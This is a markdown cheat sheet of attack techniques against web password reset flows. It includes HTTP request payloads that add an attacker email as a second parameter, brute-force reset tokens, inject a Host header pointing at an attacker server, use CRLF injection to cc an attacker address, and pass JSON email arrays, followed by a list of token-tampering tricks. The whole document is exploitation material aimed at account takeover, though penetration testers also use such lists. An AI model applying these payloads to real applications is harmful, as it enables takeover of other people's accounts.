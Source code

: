 
# **Password Reset Functionality** #

## **Concept** ##

In this vulnerability attacker tries to attack the password rest functionality of the application, if the attacker is successful in doing so this might lead to full account takeover, Below are some way to exploit this attack.

## **Ways to bypass** ##

### **Include your email as second parameter** ###

```

POST  /reset

[....]

email=victim@xyz.com&email=attacker@abc.com

```

### **Brute force the password reset token** ###

```

POST  /reset

[....]

email=victim@xyz.com&token={bruteforce}

```

### **Try to use reset token to victims account** ###

```

POST  /reset

[....]

email=victim@xyz.com&token={yourtoken}

```

### **Host header injection** ###

- Try changing the host, this might lead to passing the token to attackers server

```

POST  /reset

Host: Attacker.com

```

### **Try figuring how the tokens are generated** ###

```

Like

They might be generated based on timestamp.

They might be generated based on the user id.

They might be generated based on the email id.

```

### **CRLF Injection** ###

```

POST  /reset

[....]

email="victim@mail.tld%0a%0dcc:attacker@mail.tld"

```

```

 CLRF:

 POST /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)

```

### **Business logic** ###

```markup

While inviting users into your account/organization,

you can also try inviting company emails and add a new field

"password": "example123". or "pass": "example123" in the

request. you may end up resetting a user password.

(company email can be found here

hunter.io)

```

### **JSON array** ###

```

POST  /reset

[....]

{"email":["victim@mail.tld","atracker@mail.tld"]}

```

### **Token leakage via refer header** ###

```

POST  /reset

[....]

Referer:https://xyz.com/token={token}

```

### **IDOR for password reset** ###

- we can change the id parameter

```

POST  /reset

[....]

id=1234&

```

### **Some other ways** ###

1. **Race condition:** Exploit timing dependencies to manipulate password reset processes.

2. **Completely remove the token:** Attempt reset without providing a valid token.

3. **Change token to all zeroes:** Try resetting with a token composed entirely of zeroes.

4. **Use null/nil value:** Provide null or nil instead of a valid token.

5. **Try expired token:** Attempt to use a token that has already expired.

6. **Reuse old password reset token:** Use a previously used token for reset.

7. **Try an array of old tokens:** Attempt reset with multiple old tokens simultaneously.

8. **Modify token slightly:** Alter token characters to check for validation weaknesses.

9. **Use Unicode to spoof email:** Exploit Unicode characters to manipulate email addresses.

10. **Manipulate email format:** Attempt to include multiple addresses or special characters in the email field.

11. **Change request method/content type:** Modify HTTP request methods or content types during the reset process.

12. **Manipulate server response:** Intercept and alter server responses during reset attempts.

13. **Use super long input:** Provide excessively long inputs to exploit validation or buffer overflow vulnerabilities.